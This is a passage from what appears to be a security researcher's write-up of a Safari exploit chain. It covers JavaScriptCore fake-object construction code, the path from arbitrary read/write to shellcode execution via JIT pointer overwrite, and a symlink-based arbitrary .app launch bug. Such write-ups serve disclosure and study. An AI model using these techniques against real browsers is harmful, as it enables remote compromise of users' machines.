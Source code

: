 Using leaked structure id of attackObj and addrof/fakeobj primitive, we can
craft objects like below.

```javascript
rwObj = {
                                                            // rwObj.structureId
                                                            // rwObj.butterfly
    _: 1.1,                                                 // dummy
    length: (new Int64('0x4141414141414141')).asDouble(),
                                                            // fakeRwObj = fakeObj(addressOf(rwObj) + 0x20)
    id: leakStructureId.asDouble(),                         // fakeRwObj.structureId
    butterfly: fakeRwObj,                                   // fakeRwObj.butterfly

    __: 1.1,                                                // dummy
    innerLength: (new Int64('0x4141414141414141')).asDouble(),
                                                            // fakeInnerObj = fakeObj(addressOf(rwObj) + 0x40)
    innerId: leakStructureId.asDouble(),                    // fakeInnerObj.structureId
    innerButterfly: fakeInnerObj,                           // fakeInnerObj.butterfly
}
```

We can get arbitrary RW primitive using the fakeRwObj to update
fakeInnerObj's butterfly pointer and read/write from/to fakeInnerObj. To get
RCE from arbitrary RW primitive, we trigger the JIT compilation of the dummy
function, leak the code address, overwrite it with our shellcode.  Sometimes,
code address leak fails because we can't read/write certain values from our
fake array. In that case, we try to approximate it by reading from pointer
location + 1 and shifting the read value.  Finally, we overwrite the code
pointer of the alert function to our dummy function code pointer and call it
(with some arguments) to execute the shellcode.


### 2. Arbitrary .app launching in Safari via symbolic link in didFailProvisionalLoad()

For file:// URL, Safari opens Finder window with [NSWorkspace selectFile:inFileViewerRootedAtPath:].
This function accepts two parameters, and in most cases, Safari only uses the
first parameter, which shows the containing folder of the specified file. But
if the second parameter is used instead, the Finder launches the file if it is
executable or an app bundle.

Safari uses the second parameter after confirming that the pointed path is not
application bundle --- directory with .app suffix. Since a symbolic link can
point to the application bundle, but this is not a directory with .app suffix.
Thus, Safari will launch the application pointed by the symbolic link. This
code path can be triggered by sending didFailProvisionalLoad() IPC message.

However, Safari itself cannot create a symbolic link due to system call filter
of the Seatbelt sandbox. So we use another vulnerability that gives root, but
sandboxed code execution.
